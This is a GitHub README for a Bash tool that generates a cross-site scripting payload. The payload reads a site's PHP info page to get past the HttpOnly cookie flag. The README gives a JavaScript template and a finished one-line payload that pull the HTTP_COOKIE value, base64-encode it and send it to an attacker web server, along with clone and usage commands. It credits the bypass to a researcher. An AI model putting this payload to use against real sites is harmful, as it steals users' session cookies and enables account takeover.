

# Context
This is a payload generator designed in Bash to exfiltrate user cookies through the PHP info page bypassing the HttpOnly flag during XSS exploitation. The researcher who discovered this HttpOnly bypass method is [Aleksi Kistauri](https://github.com/ls4cfk) and you can see the original post here

https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b

As you can see, the payload works correctly but it can be improved to send only the cookies and not all the HTML code that comes after it. That's why I decided to design this script and write this post on my blog

[https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/)

to try to explain this bypass in depth, adding some additional considerations.

# What does the script do?

This script allows you to generate an XSS payload to exfiltrate user cookies through the PHP info page. The Javascript code template is

```js
<script>
  fetch(php_info_page_url)
    .then(response => response.text())
    .then(data => {
      // Define the starting and ending strings
      const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
      const endString = '</td></tr>';

      // Find the index of the starting string
      const startIndex = data.indexOf(startString) + startString.length;

      // Find the index of the ending string
      const endIndex = data.indexOf(endString, startIndex);

      // Get the substring between the starting and ending strings
      const cookies = data.substring(startIndex, endIndex);

      // Encode the cookies in base64
      const encodedCookies = btoa(cookies);

      // Send the encoded cookies to the web server
      fetch(attacker_web_server_url + '?encodedCookies=' + encodedCookies, {
        method: 'GET'
      });
    });
</script>
```
where php_info_page_url is the url of the PHP info page of the website vulnerable to XSS and attacker_web_server_url is the url of the attacker web server, where the encoded cookies are sent. The payload is returned in one line and without comments, ready to be injected in HTML context.

# Installation

This repository doesn't require any installation, you only need to clone the repository

```bash
git clone https://github.com/HackCommander/PHP-info-cookie-stealer.git
```

# Usage

This is an example of use


```bash
./generate-javascript-payload.sh http://vulnerable-server-to-xss.com/phpinfo.php http://attacker-web-server.com/
```

where `http://vulnerable-server-to-xss.com/phpinfo.php` would be the url of the PHP info page of the website vulnerable to XSS and `http://attacker-web-server.com/` would be the url of your web server, where the encoded cookies are sent.


```js
<script>fetch('http://vulnerable-server-to-xss.com/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://attacker-web-server.com/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```

This XSS payload is designed to be executed in HTML context but you can adapt it to execute in the context you need. The important thing is the Javascript code between the script tags.

# Additional comments

This tool has been developed with the help of [ChatGPT](https://chat.openai.com/chat). After a very constructive conversation, we came to the following conclusion



This is the Javascript code template that fills the script. The Bash code generation only required a few more questions.
